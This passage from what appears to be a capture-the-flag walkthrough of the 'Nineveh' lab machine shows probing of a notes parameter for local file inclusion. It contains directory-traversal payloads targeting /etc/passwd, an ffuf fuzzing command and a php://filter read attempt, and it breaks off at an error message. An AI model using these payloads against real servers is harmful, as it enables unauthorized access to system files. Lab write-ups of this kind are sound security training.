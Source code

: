 ![image.png]({{ site.baseurl }}/assets/nineveh/image%2013.png)

Clicking on Notes reveal:

```bash
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois

```

The URL used to request this note is:

```bash
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```

Let’s see if there is an LFI here. Let’s send it to repeater. Some simple fuzzing did not work:

```bash
notes=/etc/passwd
notes=../../../../etc/passwd
notes=....//....//....//....//....//etc/passwd
notes=files/../../../../etc/passwd
```

Let’s try fuzzing it:

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.10.10.43/department/manage.php?notes=FUZZ' -fs 0

```

Let’s try php filters:

```bash
http://10.10.10.43/department/manage.php?notes=php://filter/read=convert.base64-encode/resource=manage.php
```

Does not work. File name too long. Let’s try to fuzz and look for other files within the files dir:

```bash
http://10.10.10.43/department/manage.php?notes=files/anhfile.php
```

Nothing. Maybe there is a filter that requires the file name to be ninevehNotes:

```bash
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes

http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes
```

We get this error:
